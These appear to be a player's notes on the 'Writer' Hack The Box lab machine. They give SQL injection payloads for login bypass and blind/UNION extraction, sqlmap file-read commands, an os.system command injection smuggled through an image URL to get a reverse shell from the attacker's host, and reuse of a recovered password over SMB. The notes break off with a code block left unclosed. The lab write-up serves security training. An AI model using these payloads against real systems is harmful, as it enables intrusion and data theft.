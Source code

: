 ## Info 
### Credentiak 
 User | Password           | Service | Note
------|--------------------|---------|------
admin |ToughPasswordToCrack|         |
kyle  |                    |         |

### HTTP
- domain: `Writer.HTB`
- login page: `/administrative`
#### Database
- `site` table
```
id | title | description | logo | favicon | ganalytics
```
- `users` table
```
id | username | password | email | status | date_created
```
- `stories` table
```
id | author | title | tagline | content | status | date | image
```


## Path
### User
1. Found `/administrative` has SQL Injection.
```
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin' AND (SELECT 3785 FROM (SELECT(SLEEP(5)))wVdK) AND 'vekP'='vekP&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: uname=admin' UNION ALL SELECT NULL,CONCAT(0x71766a7171,0x647273715a44645a656a444341676c59677353484f4d4c6370686a614b634c4a6356496c44476c5a,0x716b766271),NULL,NULL,NULL,NULL-- -&password=admin
---
[16:14:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```
2. Use SQL Injection to login as `admin`.
```
uname=admin'-- -&password=admin
```
3. Found the db schema, the tables, the cloumn names, and useful data.
```
SQL query> select schema_name from information_schema.schemata limit 1,1
writer

SQL query> select table_name from information_schema.tables limit 76,1
site
SQL query> select table_name from information_schema.tables limit 77,1
stories
SQL query> select table_name from information_schema.tables limit 78,1
users
SQL query> select column_name from information_schema.columns where table_name= 'site' limit 0,1
id
SQL query> select column_name from information_schema.columns where table_name= 'site' limit 1,1
title
...
```
4. Use `sqlmap` to read files and found the path `/var/www/writer.htb` at `000-default.conf`. Then find the source code of the website `/var/www/writer.htb/writer/__init__.py`.
```
$ sqlmap -r login.req --file-read '/etc/apache2/sites-available/000-default.conf'
```
5. The source code of the website use `os.system` when handling the uploaded image of the story, we can get shell by abusing this function.
```
# __init.py__
if ".jpg" in image_url:
  try:
    local_filename, headers = urllib.request.urlretrieve(image_url)
    os.system("mv {} {}.jpg".format(local_filename, local_filename))
```
6. The `image_url` parameter in the post can execute file`, we need to manually set it in the burp suite.
```
# Verify request
http://10.10.16.9/ice.jpg
# Get rev shell
http://10.10.16.9/ice.jpg;
7. We can read `writer2_project` share with credential `kyle:ToughPasswordToCrack`.
```
$ mkdir smb-kyle && cd smb-kyle
$ smbget -U kyle -R smb://$ip/writer2_project/writer_web
Password for [kyle] connecting to //writer2_project/10.10.11.101:
Using workgroup WORKGROUP, user kyle
smb://10.10.11.101/writer2_project/writer_web/apps.py
smb://10.10.11.101/writer2_project/writer_web/views.py
...
```
